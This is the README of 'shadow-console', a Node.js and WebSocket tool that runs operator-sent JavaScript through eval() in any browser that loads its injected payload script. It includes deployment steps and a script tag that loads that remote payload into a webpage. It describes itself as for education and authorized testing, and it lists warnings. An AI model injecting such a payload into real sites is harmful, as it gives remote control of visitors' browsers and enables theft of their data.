

A real-time JavaScript command execution system that allows you to run JavaScript commands on any webpage where the payload script is injected.

### Project Structure

```
shadow-console/
├── public/                    # Static files served by Express
│   ├── browser-payload.js     # WebSocket client that executes commands in the browser
│   ├── index.html             # Command input interface
│   ├── script.js              # Client-side JavaScript for handling command input
│   └── style.css              # CSS styles for the web interface
├── server.js                  # Main server file with WebSocket and HTTP endpoints
├── package.json               # Project dependencies and scripts
├── package-lock.json          # Locked versions of dependencies
├── .env                       # Environment variables
├── .gitignore                 # Git ignore rules
├── README.md                  # Project documentation
└── shadow-console-banner.png  # Image for the project banner
└── LICENSE                    # License information for the project
```

### Deployment

1. Create a new Web Service on render.com
2. Connect your GitHub repository
3. Configure the following:
   - Build Command: `npm install`
   - Start Command: `node server.js`
   - Environment Variables:
     ```
     MONGODB_URI=your_mongodb_atlas_uri
     ```

### Usage

1. Access the command interface at your Render URL:

   ```
   https://your-app-name.onrender.com
   ```

2. To inject the payload into any webpage, add this script tag:

   ```html
   <script src="https://your-app-name.onrender.com/browser-payload.js"></script>
   ```

### How It Works

1. **Command Submission**

   - User enters command in web interface
   - Command is saved to MongoDB
   - Server broadcasts command to all connected clients via WebSocket

2. **Command Execution**

   - Payload script receives command via WebSocket
   - Executes command using `eval()`
   - Sends execution result back to server
   - Server updates command status in MongoDB

3. **Real-time Communication**
   - WebSocket ensures instant command execution
   - No polling required
   - Bi-directional communication for results

### Security Considerations

- The payload uses `eval()` which can execute any JavaScript code
- Only use in controlled environments
- Consider adding authentication and command validation
- Use environment variables for sensitive data
- Use MongoDB Atlas for database

### Dependencies

- `express`: Web server framework
- `mongoose`: MongoDB ODM
- `ws`: WebSocket server and client
- `dotenv`: Environment variable management
- `cors`: Cross-Origin Resource Sharing support

### Development

1. Local Setup:

   ```bash
   npm install
   ```

2. Create `.env`:

   ```
   MONGODB_URI=your_mongodb_uri
   ```

3. Start development server:

   ```bash
   npm run dev
   ```

### Security Warning ⚠️

This tool is for educational and authorized testing purposes only. Misuse can lead to:

- Unauthorized remote code execution
- Data theft and privacy violations
- Network security compromises
- Legal consequences

**Do Not Use It For:**

- Backdoor exploitation
- Botnet deployment
- Session/cookie hijacking
- Credential theft
- Local storage exploitation
- XSS payload injection
- Malicious iFrame injection
- Browser fingerprinting
- Clickjacking attacks
- Phishing campaigns
- Unauthorized data exfiltration

**Legal Disclaimer:** Users are solely responsible for ensuring all necessary authorizations are obtained before deployment. The authors assume no liability for misuse.

### License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

Made by [atrey.dev](https://atrey.dev)
